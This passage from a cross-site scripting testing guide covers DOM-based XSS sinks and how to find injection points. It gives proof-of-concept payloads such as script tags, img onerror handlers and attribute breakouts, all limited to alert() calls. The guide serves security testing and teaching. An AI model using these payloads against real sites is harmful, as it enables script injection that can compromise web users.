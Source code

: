 url encoded with xss:

```
comment=%3Cscript%3E%2F*%2BBad%2Bstuff%2Bhere...%2B*%2F%3C%2Fscript%3E
```

DOM-based XSS

Make use of the HTML tree.

The document.write sink works with script elements, so you can use a simple payload such as:

```
document.write('... <script>alert(document.domain)</script> ...');
```

The innerHTML sink doesn’t accept script elements on any modern browser, nor will svg onload events fire. This means you will need to use alternative elements like img or iframe. Event handlers such as onload and onerror can be used in conjunction with these elements. For example:

```
element.innerHTML='... <img src=1 onerror=alert(document.domain)> ...'
```


Find XSS

Input could be:

1. GET/POST variables
    
2. COOKIE
    
3. HTTP HEADERS
    

First, try to inject `<plaintext>` tag to see if the page will be broken after.

Then, check if we can inject script using `<script>` or using one of the DOM events (e.g. `<h1>`).

When inspecting the source code, look for all the points where the application outputs data (totally / partially) supplied by the user without sanitization and tracking it back to the source where it is retrieved for the first time.

### XSS between html tags

```
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>
```

### xss in html tag attributes

When the XSS context is into an HTML tag attribute value, you might sometimes be able to terminate the attribute value, close the tag, and introduce a new one. For example:

```
"><script>alert(document.domain)</script>
```

More commonly in this situation, angle brackets are blocked or encoded, so your input cannot break out of the tag in which it appears. Provided you can terminate the attribute value, you can normally introduce a new attribute that creates a scriptable context, such as an event handler. For example:
